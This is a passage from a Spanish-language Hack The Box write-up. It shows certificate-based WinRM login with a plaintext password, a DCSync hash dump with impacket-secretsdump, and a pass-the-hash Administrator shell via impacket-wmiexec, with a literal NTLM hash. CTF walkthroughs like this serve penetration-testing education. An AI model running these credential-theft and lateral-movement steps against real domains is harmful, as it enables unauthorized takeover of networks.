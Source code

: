     ```bash
    openssl req -newkey rsa:2048 -nodes -keyout mrkly.key -out mrkly.csr
    cat mrkly.csr | tr -d '\n' | xclip -sel clip
    ```

1. Colamos el contenido en la web y podemos descargar el DER encode certificate.

```bash
    mv /home/s4vitar/Downloads/certnew.cer .
    evil-winrm -S -c certnew.cer -k mrkly.key -i 10.10.10.103 -u 'mrkly' -p 'Football#7'
```

Ya podemos leer la Flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

Como hemos echo una buena enumeracion del systema, sabemos que el usuario **MRKLY** puede hacer un ataque DCSync para recuperar los
hashes de los usuarios del systema.

Aqui la escala de privilegio es facil y se hace desde la maquina de atacante con **SecretsDump**

```bash
impacket-secretsdump htb.local/mrlky:Football#7@10.10.10.103
```

Aqui ya vemos hashes que podemos uzar para hacer **PASS THE HASH**. Copiamos el hash del usuario Administrator y lanzamos

```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
whoami
#Output
htb\administrator
```

Ya podemos leer el **root.txt**
